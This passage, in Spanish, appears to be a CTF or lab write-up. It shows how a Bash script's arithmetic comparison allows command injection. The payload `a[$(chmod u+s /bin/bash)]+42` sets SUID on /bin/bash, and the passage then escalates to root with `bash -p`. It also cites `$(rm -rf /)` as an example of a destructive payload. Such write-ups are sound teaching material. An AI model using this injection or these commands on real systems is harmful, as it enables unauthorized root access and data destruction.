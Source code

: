 El script **es críticamente vulnerable** a inyección de comandos debido a cómo se evalúa `$numero` en el condicional `[[ ... ]]`.
- **Mecanismo de ataque**:  
    En Bash, las expresiones dentro de `[[ ... ]]` permiten **sustitución de comandos** (`$()`) y **expansión aritmética** cuando se usan operadores como `-eq`.
- **Payload de explotación**:  
    `a[$()]+42` contiene:
    - `$()`: Ejecuta cualquier comando dentro (ej: `$(rm -rf /)`).
    - `a[]`: Array no definido (equivale a `0` en operaciones aritméticas).
    - `+42`: Suma para que la expresión sea `42` (no requiere que sea `1`).
    -  El operador `-eq` fuerza una evaluación aritmética en Bash.
	- Cualquier comando dentro de `$()` se ejecuta **antes** de la comparación numérica.
	- **No hay validación de entrada**: El script confía ciegamente en la entrada del usuario.
Ahora el comando que le inyectaremos es el siguiente para otorgar privilegios **SUID** a la bash de **root**
```bash
a[$(chmod u+s /bin/bash)]+42
```

Explotacion
```bash
Ingrese el número 1 para hacer un backup de tus archivos: a[$(chmod u+s /bin/bash)]+42
El número ingresado no es igual a 1. No se realizará ninguna operación.
```

Aunque fallo el script hemos logrado nuestro objetivo, Revisamos los permisos de la **bash** de **root**
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Aug  4  2021 /bin/bash
```

Ahora migramos a **root**
```bash
# Comando para escalar al usuario: ( root )
bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.1# whoami
root
```